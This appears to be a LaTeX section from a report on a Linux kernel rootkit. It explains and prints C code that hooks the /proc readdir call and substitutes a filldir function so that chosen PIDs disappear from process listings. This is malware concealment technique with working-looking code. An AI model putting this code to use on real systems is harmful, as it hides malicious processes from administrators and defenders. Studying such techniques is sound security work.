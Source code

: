 \documentclass[10pt, letterpaper]{article}
\begin{document}
\subsection{Process Hiding}

\label{sec:process-hiding}

Currently, we hook the \texttt{readdir} call of the \texttt{proc}-filesystem to hide the specified tasks (just as in \autoref{filehiding}). Moreover, we also employ a custom \texttt{filldir} function\footnote{\texttt{filldir\_t} is an own type in the Linux kernel for a function used to fill the contents of \texttt{readdir}.}, which actually hides the processes.

The hooked \texttt{readdir} function is quite simple:

\begin{verbatim}
int hooked_readdir(struct file *filep, void *dirent, filldir_t filldir){
    original_proc_fillfir = filldir;
    return proc_original_readdir(filep, dirent, hooked_proc_filldir);
}
\end{verbatim}

First, we remember the original \texttt{filldir} function so we can use it later. Afterwards, we call the \emph{original} \texttt{readdir} function, but we give our own \texttt{hooked\_proc\_filldir} as parameter to it. So, we ``just change parameters'' to the function.

It remains to show our hooked \texttt{filldir} function:

\begin{verbatim}
int hooked_proc_filldir (void *__buf, const char *name, int namelen, 
                         loff_t offset, u64 ino, unsigned d_type){
    char buf[512];
    struct proc_to_hide* cur;
    for(cur = processes_to_hide; cur != 0; cur = cur->next){
        sprintf(buf, "%d", cur->pid);
        if(strcmp(buf, name)==0){
            // If we come here, we hide the process.
            return 0;
        }
    }
    // If we come here, we just delegate everything to the original function.
    return original_proc_fillfir(__buf, name, namelen, offset, ino, d_type);
}
\end{verbatim}

As you can see, these kind of functions accept quite a bunch of arguments. But we need only one of them: \texttt{name} -- it holds a PID (formatted as a array of \texttt{char}s). 

All the other parameters are possibly passed to the original \texttt{filldir} function.
\end{document}
